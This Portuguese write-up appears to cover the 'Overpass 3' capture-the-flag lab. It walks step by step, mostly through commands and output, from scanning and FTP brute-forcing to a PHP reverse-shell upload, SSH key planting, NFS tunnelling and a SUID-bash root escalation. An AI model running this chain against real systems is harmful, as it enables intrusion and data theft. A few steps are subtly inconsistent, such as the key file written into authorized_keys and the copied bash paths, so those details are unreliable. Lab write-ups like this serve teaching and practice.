





# Overpass 3
Eai galera, vamos para mais uma!




<style>
  .centralizar {
    display: block;
    margin-left: auto;
    margin-right: auto;
  }
</style>

Nessa sala teremos:

*
*
*
* e muito mais.

---

## 1: Recon
Começaremos fazendo um scan basico no nmap!

```BASH
> nmap $IP -sS -sV -sC 

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.0 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.37 ((centos))
|_http-title: Overpass Hosting
|_http-server-header: Apache/2.4.37 (centos)
| http-methods: 
|_  Potentially risky methods: TRACE
Service Info: OS: Unix
```
Oque as Flags dizem? 

1. -sS: Sync scan - Varedura com o apeto de mão de 3 vias;

	* com Nosso computador enviara um pacote (syn), se a porta estiver aberta, o servidor retornará um outro pacote (syn-ack), por sua vez retornara um aperto de confirmação (ack). Assim podemos determinar se uma porta está ou não aberta.

2. -sV: Tentar indentificar as versãos

3. -sC: Usa um script default do nmap; Como traceroute, http-title, OS (sistema operacional) e outros.

Certo, 3 portas identificadas; Vamos a busca por diretorios:

```BASH
ffuf -u http://$IP/FUZZ -w /usr/share/wordlists/seclist/Discovery/Web-Content/directory-list-2.3-medium.txt -ic

backups                 [Status: 301, Size: 237, Words: 14, Lines: 8, Duration: 901ms]
```

Conferindo a web page, temos um arquivo:

<div align="center">
 {: .centralizar} 
</div>   

```BASH
unzip backup.zip                           
Archive:  backup.zip
 extracting: CustomerDetails.xlsx.gpg  
  inflating: priv.key                
  
   ls
backup.zip  CustomerDetails.xlsx.gpg  ov3  priv.key

> gpg --import priv.key
> gpg --decrypt CustomerDetails.xlsx.gpg > CustomerDetails.xlsx 
```

Esse é um arquivo de excel:

{: .centralizar}

Certo, temos possiveis credenciais... Ao ataque e já reparem a webshell.

```BASH
hydra -L user.txt -P pass.txt ftp://$IP
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-03-22 19:40:08
[DATA] max 9 tasks per 1 server, overall 9 tasks, 9 login tries (l:3/p:3), ~1 try per task
[DATA] attacking ftp://10.66.189.170:21/
[21][ftp] host: 10.66.189.170   login: paradox   password: ShibesAreGreat123
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-03-22 19:40:12
```
Pulamos para a fase 2

----

## 2: Acesso Inicial

Certo, revesse shell php em mãos? 

```BASH
 ftp paradox@$IP
Connected to 10.66.189.170.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||63211|)
150 Here comes the directory listing.
drwxr-xr-x    2 48       48             24 Nov 08  2020 backups
-rw-r--r--    1 0        0           65591 Nov 17  2020 hallway.jpg
-rw-r--r--    1 0        0            1770 Nov 17  2020 index.html
-rw-r--r--    1 0        0             576 Nov 17  2020 main.css
-rw-r--r--    1 0        0            2511 Nov 17  2020 overpass.svg
226 Directory send OK.
ftp> put php.php
local: php.php remote: php.php
229 Entering Extended Passive Mode (|||43613|)
150 Ok to send data.
100% |***********************************************************|  5495      938.80 KiB/s    00:00 ETA
226 Transfer complete.
5495 bytes sent in 00:00 (11.68 KiB/s)
ftp> 
```

Agora é só recuperarmos nossa shell!

{: .centralizar}

Depois de uma breve eumeração, temos os seguintes usuarios na maquina:

```BASH
sh-4.4$ cat /etc/passwd

...
root:x:0:0:root:/root:/bin/bash
james:x:1000:1000:James:/home/james:/bin/bash
paradox:x:1001:1001::/home/paradox:/bin/bash
...
```

Bom, também temos um caminho para o root definido:

```BASH
sh-4.4$ cat /etc/exports

/home/james *(rw,fsid=0,sync,no_root_squash,insecure)
```
 
Essa descrição se encaixa perfeitamente na desscrição da CVE-2016-0911. Mas vamos com calma.

Primeiro vamos tentar escalar lateralmente para o paradox ou james.

Por falar em paradox, aquelas credenciais iniciais funcionam!

```BASH
sh-4.4$ python3 -c 'import pty; pty.spawn("/bin/bash");'

bash-4.4$ su paradox
Password: ShibesAreGreat123

[paradox@ip-10-66-189-170 /]$ cd ~/.ssh

[paradox@ip-10-66-189-170 .ssh]$ ls
ls
authorized_keys  id_rsa.pub
```
Bom primeiro precisamos de injetar nossas chaves ssh aqui ( acho vergonhoso explicar isso):

```BASH
[paradox@ip-10-66-189-170 .ssh]$ ssh-keygen -f paradox

[paradox@ip-10-66-189-170 .ssh]$ cat paradox > authorized_keys
```

> Man, se não conhece nada do que foi mostrado, considere ler o artigo de um amigo (fim do post!)


Bom, voce deve está se perguntando "porque não tentamos o ssh antes, já que tinhamos as credenciais?" - A resposta é simples, o servidor está configurado para nao aceitar:

```BASH
paradox@10.66.189.170: Permission denied (publickey,gssapi-keyex,gssapi-with-mic).

  ssh paradox@$IP -i id_rsa 
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
Last login: Sun Mar 22 23:14:55 2026
[paradox@ip-10-66-189-170 ~]$ 
```
Bom agora temos um shell interativo de verdade e uma fase 3 para ler haha

----
## Fase 3: Privilege escalation

Para começar podemos ver as portas que estão ouvindo no nosso alvo com `ss -tulnp`. Por meio de tentativa e erro a porta 2049 nos entregou o que precisamos, informações:

```BASH
 nc 10.66.189.170 2049

(UNKNOWN) [10.66.189.170] 2049 (nfs) : No route to host
```
[NFS](https://hacktricks.wiki/pt/linux-hardening/privilege-escalation/nfs-no_root_squash-misconfiguration-pe.html#squashing-basic-info)

Entretanto, não podemos acessar. Isso acontece por causa de regras do firewall.

Mas nem tudo está perdido, podemos usar uma tecnica chmada [redirecionamento de portas](https://guide.offsecnewbie.com/port-forwarding-ssh-tunneling).

```BASH
 ssh paradox@$IP -i id_rsa -L 2049:localhost:2049
```
Em um segundo terminal
```BASH
 mount -v -t nfs localhost:/ /tmp/pe

mount.nfs: timeout set for Sun Mar 22 20:47:04 2026
mount.nfs: trying text-based options 'vers=4.2,addr=::1,clientaddr=::1'

 ls -al /tmp/pe                  
total 16
drwx------  3 hex  hex  112 mar 22 20:47 .
drwxrwxrwt 17 root root 420 mar 22 20:47 ..
lrwxrwxrwx  1 root root   9 nov  8  2020 .bash_history -> /dev/null
-rw-r--r--  1 hex  hex   18 nov  8  2019 .bash_logout
-rw-r--r--  1 hex  hex  141 nov  8  2019 .bash_profile
-rw-r--r--  1 hex  hex  312 nov  8  2019 .bashrc
drwx------  2 hex  hex   61 nov  7  2020 .ssh
-rw-------  1 hex  hex   38 nov 17  2020 user.flag

```
GG Rapaziada, Agora podemos pegar a chaves do usuario james e seguir com uma escalação rumo ao root. 

```BASH
ssh james@10.66.189.170 -i id_rsa
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
Last login: Sun Mar 22 21:30:39 2026 from 192.168.178.118
[james@ip-10-66-189-170 ~]$ ls
user.flag
[james@ip-10-66-189-170 ~]$ cp /bin/bash /bash
```
Certo, agora só resta sermos root!

Como temos o NFS montado no nosso diretorio `/tmp/pe`, podemos trocar o proprietario do binario do bash. Em um terceiro terminal:

```BASH
  cd /tmp/pe
 
  ls    
bash  user.flag

> chown root:root bash
> chmod +s bash
```
De volta ao termianal com ssh (james):

{: .centralizar}

---
Obrigado por ler; Abaixo está o Artigo que mencionei

https://blog.dclabs.com.br/2016/05/wanna-be-pentester.html
